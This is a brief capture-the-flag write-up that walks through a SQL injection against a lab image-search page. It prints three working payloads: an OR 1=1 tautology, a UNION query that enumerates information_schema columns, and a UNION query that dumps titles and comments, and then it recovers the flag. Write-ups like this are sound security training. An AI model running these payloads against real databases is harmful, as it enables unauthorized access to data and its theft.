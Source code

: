 # Another SQL injection

## Enumeration / Exploitation

1. List all images with OR condition

```
123 OR 1=1
```

![All images](./Resources/images.png)

We notice the image with the title hack me.
So we decide to dump everything about the images

2. Dump all columns from the image table

```
1 and 1=2 union select group_concat(column_name), 2 from information_schema.columns where table_schema = database()-- -
```

![All columns](./Resources/enumerate_column.png)

We see the columns from the image table. 

3. We try to dump the other column fields

```
1 and 1=2 union select group_concat(title, comment), 2 from list_images -- -
```

![Comments](./Resources/enumerate_comment_images.png)

Finally we follow the instruction from the comment and get the flag.

![Comments](./Resources/decrypt-MD5.png)
![Comments](./Resources/sha256-flag.png)

## FLAG

[-- 🌱 --][2]

[2]: ./flag.txt